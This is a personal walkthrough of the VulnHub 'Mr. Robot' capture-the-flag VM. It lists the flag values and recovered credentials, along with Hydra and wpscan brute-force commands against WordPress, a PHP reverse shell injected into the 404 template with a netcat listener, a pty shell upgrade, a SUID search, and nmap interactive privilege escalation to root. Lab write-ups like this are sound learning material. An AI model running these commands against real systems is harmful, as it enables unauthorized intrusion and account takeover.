 # Mr. Robot
**Completed 01/22/2023**

https://www.vulnhub.com/entry/mr-robot-1,151/

**Flags:**
1. /robots/key-1-of-3.txt: 073403c8a58a1f80d943455fb30724b9
2. /home/robot/key-2-of-3.txt: 822c73956184f694993bede3eb39f959
3. /root/key-3-of-3.txt: 04787ddef27c3dee1ee161b21670b4e4

# **Flag 1**
## nmap
- ran `nmap -sS --script vuln 10.10.1.102` to check for open ports and vulns
	- Found port 22 closed, 80 and 443 open
	- vuln script enumerated hidden dirs, led me to `/robots/`
	- found `key-1-of-3.txt` and navigated to URL to view it
## fosocity.dic 
- downloaded `fsocity.dic` which was a massive wordlist with repeated words
	- used `cat fsocity.dic | sort -u > filtered.txt` to sort the list and filter it down to unique values
# **Flag 2**
## /wp-login.php Enumeration
### Username
- other writeup obtained the POST request (wireshark?) from when they tried to login, showing that the form took the parameters `log` and `pwd`
- they then use Hydra to bruteforce the username with the command: `hydra -vV -L fsocity.dic.uniq -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'`
	- `-vV`: verbose
	- `-L fsocity.dic.uniq`: use the filtered wordliFst (filtered.txt on my box)
	- `-p wedontcare`: password doesn't matter here
	- `http-post-form`: what it is we're targeting, in this case an HTTP POST form
	- `'/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'`: telling hydra where to insert the username from the list and the irrelevant password in the POST, and indicating that it is a failed attempt if the returned data contains "Invalid username"
- Once this had run, the username `elliot` was found
### Password
- wpscan could be used to search for the password using the same wordlist (filtered.txt)
	- Ran `wpscan -url http://10.10.1.102/wp-login.php -U elliot -P filtered.txt` which returned the password of `ER28-0652`
## PHP Reverse Shell
### Editing a PHP page
- Looked around the admin panel, found Editor page under Appearance
	- First page that could be edited was the 404 page, which runs a php script
	- used `locate php-re` to find a PHP Reverse Shell on the Kali install
	- edited IP value in the template to my own, set port to 443
	- copied the entire script into the 404 page editor and saved
### Using the reverse shell
- ran `netcat -lnvp 443` to listen for the reverse shell
	- triggered a 404 page to gain access
	- found password MD5 hash `robot:c3fcd3d76192e4007dfb496cca67e13b` and `key-2-of-3.txt` in `/home/robot/`
	- permission denied for key file
	- used [crackstation](https://crackstation.net) to crack hash for result of `abcdefghijklmnopqrstuvwxyz`
	
- Back in the reverse shell
	- tried `su robot` to login to that user account, returned an error saying I had to run that command from a terminal
	- ran `python -c 'import pty;pty.spawn("/bin/bash")` to get into a bash terminal
	- could then use `su robot` to login to robot account and open `key-2-of-3.txt`
# Flag 3
## Privilege Escalation
- Use `find / -perm +6000 | grep '/bin/'` to locate binaries with the su ID bit set, which may be used for privilege escalation.
	- [gtfobins](https://gtfobins.github.io) provides instructions for privilege escalation for binaries like this.
- used `nmap --version` to find that it was version 3.81, which has a privilege escalation vulnerability
	- simply run `nmap --interactive`, then use `!sh` to start a shell within the nmap interactive mode
	- run `id` or `whoami` to see that there are now root privileges
	- navigate to `/root/` to view the final flag file, `key-3-of-3.txt`


# **Lessons Learned**
- Literally this entire CTF
	- First one I've ever done
- Learned about using the vuln script with nmap for some hidden directory enumeration
- Learned a way of bruteforcing usernames on HTTP POST forms with hydra
- Learned how to bruteforce passwords on wordpress pages using wpscan
- Learned how to inject a PHP Reverse Shell anywhere that php runs and the code can be edited at an admin level
- Discovered [crackstation](https://crackstation.net) for password hash cracking
- Learned how you can use a simple python command to get a bash shell from a basic reverse shell
- Learned about the nmap 3.81 privilege escalation vulnerability and how to use it (`!sh` while in interactive mode)